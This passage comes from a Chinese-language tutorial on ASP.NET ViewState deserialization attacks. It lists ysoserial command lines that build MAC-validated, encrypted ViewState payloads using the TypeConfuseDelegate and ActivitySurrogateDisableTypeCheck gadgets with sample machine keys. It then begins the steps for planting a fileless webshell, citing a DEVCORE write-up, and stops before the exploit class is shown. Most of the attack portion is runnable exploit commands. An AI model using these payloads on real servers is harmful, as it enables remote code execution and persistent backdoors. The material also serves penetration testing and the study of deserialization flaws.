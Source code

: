 ### 2.3 ASP.NET >= 4.5，开启MAC验证

未开启加密的情况同2.2，下面是开启加密的payload生成：

```powershell
.\ysoserial.exe
-p ViewState 
-g TypeConfuseDelegate 
-c "echo 123 > e:\test.txt" 
--path="/default.aspx"
--appath="/"
--validationalg="SHA1" 
--validationkey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92" 
--decryptionalg="AES" 
--decryptionkey="F6D5A5C8DDEC57481610829F58D6C95BDAC5FA21082F3FA9CB5A36DCEAACBEDB"

# 从逻辑上下面的命令也应当正确，但事实却是MAC验证失败，原因不明
.\ysoserial.exe
-p ViewState 
-g TypeConfuseDelegate 
-c "echo 123 > e:\test.txt" 
--generator=CA0B0334
--validationalg="SHA1" 
--validationkey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92" 
--decryptionalg="AES" 
--decryptionkey="F6D5A5C8DDEC57481610829F58D6C95BDAC5FA21082F3FA9CB5A36DCEAACBEDB"
--isencrypted
```

### 2.4 Webshell

参考：[玩轉 ASP.NET VIEWSTATE 反序列化攻擊、建立無檔案後門 (DEVCORE 戴夫寇爾)](https://devco.re/blog/2020/03/11/play-with-dotnet-viewstate-exploit-and-create-fileless-webshell/)

首先需要 DisableTypeCheck：

```powershell
.\ysoserial.exe 
-p ViewState 
-g ActivitySurrogateDisableTypeCheck 
-c "ignore" 
--path="/default.aspx" 
--apppath="/" 
--validationalg="SHA1" 
--validationkey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92" 
--decryptionalg="AES" 
--decryptionkey="F6D5A5C8DDEC57481610829F58D6C95BDAC5FA21082F3FA9CB5A36DCEAACBEDB"
```

然后在 ysoserial 文件夹下撰写一个用于执行任意代码的类（假定为 ExploitClass.cs）：
